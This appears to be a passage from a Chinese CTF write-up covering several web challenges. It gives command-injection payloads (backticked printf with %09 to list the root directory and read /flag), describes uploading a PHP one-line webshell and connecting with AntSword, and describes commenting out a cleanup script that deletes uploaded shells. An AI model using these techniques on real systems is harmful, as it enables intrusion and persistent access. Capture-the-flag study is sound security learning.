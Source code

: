 echo被禁用，使用printf。

/?cmd=printf(`l\s%09/`);发现flag

/?cmd=printf(`tac%09/fla?`);得到flag

#### 小蓝鲨的秘密

打开后发现是蓝鲨官网，复制题目链接发现并不直接是滥杀官网。于是打开F12，访问题目链接，在响应头中发现flag。

#### 小蓝鲨的临时存储室

访问发现可以直接上传php文件，于是上传一句话木马，用蚁剑连接。

在根目录发现了一个/flag文件，但是权限设置为600，我读不了啊。

正在我左翻右翻的时候发现蚁剑突然不能用了，我一看，shell不见了？？？

于是重新上传一句话木马，看根目录的/down_file.sh文件。

```bash
#!/bin/bash

find /var/www/localhost/htdocs/uploads/ -type f -name "*.php" -exec rm -f {} \;

```

嗷原来就是这玩意在删我马，赶紧注释掉！

同时猜测，这应该是个定时文件，自动删码。

在根目录还有另一个脚本文件/start.sh，根据名字我猜是docker启动时自动执行的脚本。

```bash
#!/bin/sh
if [ -z "$FLAG" ]; then
  echo "Error: FLAG environment variable is not set."
  exit 1
fi

echo "$FLAG" >> /flag

chmod 600 /flag
chown root:root /flag

crond -f &
unset FLAG

httpd -D FOREGROUND

```

脚本大概作用是：

1. **检查 **`FLAG`** 环境变量是否设置**
2. 将 `FLAG`的值追加到 `/flag`**文件** ：
3. 设置 `/flag`**文件权限和所有者** ：`chmod 600 /flag` 设置文件权限为只有所有者可以读写。`chown root:root /flag` 将文件的所有者和所有组设置为 `root`。
4. 启动 *`cron` *服务** ：
5. 取消设置 *`FLAG` *环境变量** ：
6. **启动 Apache HTTP 服务器** ：
